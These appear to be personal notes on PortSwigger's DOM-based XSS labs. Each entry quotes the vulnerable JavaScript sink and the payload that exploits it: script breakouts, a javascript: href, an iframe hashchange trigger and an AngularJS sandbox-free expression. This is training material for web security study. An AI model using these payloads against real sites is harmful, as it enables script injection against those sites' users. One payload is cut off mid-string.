

Lab: [DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

Payload: ">

Lab: [DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');    
```
--->

store is from user input in the URL params (``URLSearchParams``)

```html
<select name="storeId">
<option selected>'+store+'</option>'
<option>'+stores[i]+'</option>
</select>
```



payload: 

```html
1+</option></select>"<script>alert(1)</script>
```
--->
```html
<select name="storeId">
<option selected> 1 </option></select>"<script>alert(1)</script></option>
<option>'+stores[i]+'</option>
</select>
```

Lab: [DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)


```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

payload: <b>XSS</b> --> XSS


Lab: [DOM XSS in jQuery anchor href attribute sink using location.search source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

payload: javascript:alert(1) --> <a href=javascript:alert(1)> 

Lab: [DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

payload: ``<iframe src="https://0a06004904b7997880b4a48400a4000b.web-security-academy.net#" onload="this.src+=''">``

Lab: [DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

When a site uses the ng-app attribute on an HTML element, it will be processed by AngularJS. In this case, AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes.

payload: {{$on.constructor('alert(1)')()}}